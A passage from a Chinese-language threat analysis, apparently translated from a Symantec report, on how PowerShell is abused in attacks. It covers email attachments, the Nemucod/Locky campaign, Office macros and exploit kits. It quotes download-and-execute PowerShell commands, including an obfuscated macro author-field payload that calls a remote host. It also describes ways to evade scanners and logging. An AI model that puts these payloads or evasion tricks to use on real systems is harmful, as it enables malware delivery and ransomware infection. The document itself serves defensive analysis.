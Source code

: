 大约 89%使用了 “Bypass”和 11%使用了”Unrestricted”作为参数结合执行策略标志。集合所有的恶意软件家族没有随机化标志的顺序。 
电子邮件是 powershell下载者最常见的传播手段，我们观察到垃圾邮件中经常在.zip包中，包含 powershell 脚本文件，这些文件有以下扩展: 

```c
.lnk   .wsf   .hta    .mhtml    .html    .doc    .docm    .xls    .xlsm   .ppt   .pptm  
.chm    .vbs    .js    .bat    .pif    .pdf    .jar 
```

在过去的六个月里，javascript 是阻止次数最多的电子邮件附件类型，平均每天我们阻止 466,028 封含 jacascript 恶意附件的邮件。第二阻止最多的是.html，接下来是.vbs 和.doc。所有这些类型都能够执行 powershell 脚本，直接或者间接。

如果用户打开这些附件，powershell脚本将会启动，有些文件类型类似.lnk和.wsf，也可以直接执行 powershell 脚本，另外像.hta，运行一个 javascript 或者 VBScript 来调用 powershellpayload。Cmd.exe，WScript，CScript，MShta，或者 WMI 这些都是用于执行 powershell 脚本的常用方法。 

这些附件可能会增加密码保护来绕过网关安全设备，这些密码会包含在邮件内容里，攻击者用社会工程学方法来诱骗用户打开附件并启用其内容。 我们分析了未在防护链中阻止的 powershell 脚本，例如通过 IPS 签名，或者垃圾邮件过滤系统，这些脚本到达用户计算机并尝试运行，从 2016 年到现在，赛门铁克的基于行为保护的系统发现了10,797个powershell脚本执行。总数包含有良性脚本，这当然没有被阻止。总共弄有55的脚本通过cmd.exe来调用运行。如果我们仅仅统计恶意脚本，那么有 95%是通过 cmd.exe 来调用的。 

该被注意的是在目标计算机上执行之前，大多数宏恶意下载被阻止，所以它们还没到触发我们的行为保护系统。`Nemucod downloader `一个使用powershell的威胁例子是js.Nemucod，它下载(Ransom.Locky)勒索软件的变体。该威胁通过垃圾邮件的.zip附件包含.wsf文件，大量这些邮件在 2016 年 7 月发送。赛门铁克阻止这些垃圾邮件每天超过 130 万。 
 
.wsf 文件使用加密 Javascript 来下载 payload。这些文件还利用了一个条件编译技巧 (@cc_on)，这是一个 jscript 在 IE 中的功能。由于许多安全扫描程序不知道@cc_on标签，它们认为它是注释而忽略了代码，因此无法检测这个威胁。

这个攻击活动背后的团队在 10 月初改变了战术，开始发送含有.lnk的邮件。使用社会工程学技巧，声称该附件是一个发票，当这个附件被执行，它会执行一个powershell命令去下载勒索软件，下面是一个 powershell 命令的例子: 

```c
Powershell.exe –windowstyle hidden (New-ObjectSystem.Net.WebClient.DownloadFile(‘http://[REMOVED]’,’%Temp%\[RANDOM].exe’);StartProcess ‘%Temp%\[RANDOM].exe’ 
```
 
#### office macros 
 
另外一种常见的感染方式是使用 office 文档的宏，在 2016 年卷土重来，攻击者使用社会工程学构造的邮件去欺骗用户开启并执行宏。恶意宏通常执行一些测试来验证是否在计算机上运行，而不是安全研究员的虚拟机里。它可以通过运行 Application.RecentFiles.Count检查最近的文件是否已打开，一旦宏验证是计算机,它马上下载其它的 powershell脚本，不幸的是这种行为本身不是恶意的，正如我们看到合法的宏释放并执行良性脚本。 
 
而且，宏代码不需要包含恶意脚本。我们看到存储在表单元格或元数据中的恶意脚本，宏代码会读取这些数据并执行它们。比如下面这个作者属性字段区域: 

```c
Author: powershell.exe  –nop    –w  hidden  –c  “IEX    ((NEW-object net.webclient).downloadstring(‘http://192.168.0.42:80/a’))”
```
 
下面是另一个宏读取作者属性字段的示例，并且有经过混淆: 
 
```c
 Author: PoWErShELL -EXeCUTIo BYpasS -wIndOWSTy HiDDEN -nolOgO -NOe -NoNiNTer -noPrOFil -COmm “ . 
( \”{0}{1}\”-f’I’,’EX’) ( ( &( \”{0}{1}{2}\”-f ‘new’,’-o’,’bject’ ) ( \”{0}{2}{1}{3}\”-f’net’,’n’,’. webclie’,’t’) )… 
```
 
恶意宏可以使用破折号（-）选项来运行powershell可执行文件，然后将脚本的奇遇部分写到标准输入(stdin)。因此，一些日志工具可能不会注意到完整的脚本。攻击者还可以提供.reg 文件，将 powershell payload 添加到注册表中，以便在特定触发器上执行。比如当计算机重启，要使其正常工作，用户必须忽略在试图打开.reg 文件时出现的警告。攻击者也可以用”regedit.exe /s”从另外一个进程静默导入payload。到目前我们还没有看到这些技术在使用，因为常用的方法任然有效。 

#### Exploits 

Exploit漏洞利用程序也在试验powershell，最近我们看到了Rig，Neutrino，Magnitude，和Sundown exploit kits 利用 Microsoft Internet Explorer Scripting Engine Remote Memory Corruption 漏洞(CVE-2016-0189).此共计会利用Jscirpt和vbscript引擎中的一个缺陷来执行代码。一些共计活动使用powershell脚本而不是一个VBScript来下载和执行文件。下面是一个例子的脚本: 
 